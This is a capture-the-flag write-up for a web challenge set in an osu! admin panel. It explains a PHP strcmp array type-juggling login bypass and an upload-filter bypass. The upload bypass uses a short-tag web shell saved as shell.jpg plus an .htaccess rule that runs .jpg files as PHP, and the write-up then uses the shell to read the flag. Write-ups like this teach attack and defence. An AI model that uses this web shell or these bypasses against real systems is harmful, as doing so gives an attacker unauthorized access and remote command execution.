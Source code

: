 # web/admin-panel

by WoodMan

## Summary

> we found the secret osu! admin panel!!
> can you find a way to log in and read the flag?

## Challenge Solving

```php
// login.php
<?php
    session_start();
    $admin_password = bin2hex(random_bytes(16));
    
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $username = $_POST["username"];
        $password = $_POST["password"];
        
        if ($username == "peppy" && strcmp($admin_password, $password) == 0) {
            $_SESSION["logged_in"] = true;
            header("Location: admin.php");
            exit();
        }
    }
    
    header("Location: index.php");
?>
```

The main issue lies in line 10 with the `strcmp` comparison. I can change the incoming `password` from a string to `password[]`, which makes `$password` an array instead of a string. When the comparison is performed, since the parameter is not a string, it will throw a warning and return `NULL` (indicating failure). However, due to PHP’s loose comparison, `NULL == 0` is considered equal, so the condition `strcmp(...) == 0` evaluates to true, allowing the check to be bypassed.

Once triggered, simply request `/admin.php` to view the upload page.

```php
// admin.php
<?php
  session_start();
  if (!isset($_SESSION["logged_in"])) {
    header("Location: index.php");
    exit();
  }

  if ($_SERVER["REQUEST_METHOD"] == "POST") {
    if (isset($_FILES["file"])) {
      $file = $_FILES["file"];
      $filename = $file["name"];
      $contents = file_get_contents($file["tmp_name"]);

      if (stripos($filename, ".php") !== false) {
        echo "<h1>file is not allowed</h1>";
      }
      else if (stripos($contents, "<?php") !== false) {
        echo "<h1>file has unsafe contents</h1>";
      }
      else {
        move_uploaded_file($file["tmp_name"], "./uploads/" . $filename);
        header("Location: /uploads/" . $filename);
      }
      die();
    }
  }
?>
// ...
```

Next, to bypass the checks on lines 15 and 18, we can embed PHP code inside a `.jpg` file using the short open tag syntax. This allows us to bypass the first check for the `.php` file extension. At the same time, since we’re using short open tags, it won’t trigger the second check that looks for `<?php` in the file content.

* `echo '<? system($_GET["cmd"]); ?>' > shell.jpg`

When requesting `/shell.jpg?cmd=cat%20/flag.txt` it fails, so we need to make the `.jpg` executable. Modify the `.htaccess` via upload:

* `echo 'AddType application/x-httpd-php .jpg' > .htaccess`

This tells Apache to treat files with the `.jpg` extension as PHP and execute them with the PHP interpreter — essentially “executing JPG as PHP.”
At this point, requesting `/shell.jpg?cmd=cat%20/flag.txt` again will successfully retrieve the flag.

## Flag

`osu{php_is_too_3asy}`

